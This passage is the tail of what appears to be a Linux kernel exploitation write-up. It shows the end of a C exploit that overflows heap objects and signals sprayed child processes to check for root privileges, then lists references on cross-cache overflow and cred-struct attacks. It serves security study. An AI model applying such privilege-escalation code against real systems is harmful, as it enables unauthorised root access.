    for (int i = 0; i < VUL_OBJ_NUM; i++) {
        alloc();
        edit(i, VUL_OBJ_SIZE, buf);
    }

    /* checking privilege in child processes */
    puts("[*] notifying child processes and waiting...");
    write(check_root_pipe[1], buf, CRED_SPRAY_NUM);
    sleep(1145141919);

    return 0;
}

```

## REFERENCE

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x09-Kernel-Heap-Cross-Cache-Overflow-amp-Page-level-Heap-Fengshui)

[https://bsauce.github.io/2022/11/07/castaways](https://bsauce.github.io/2022/11/07/castaways)

[https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html)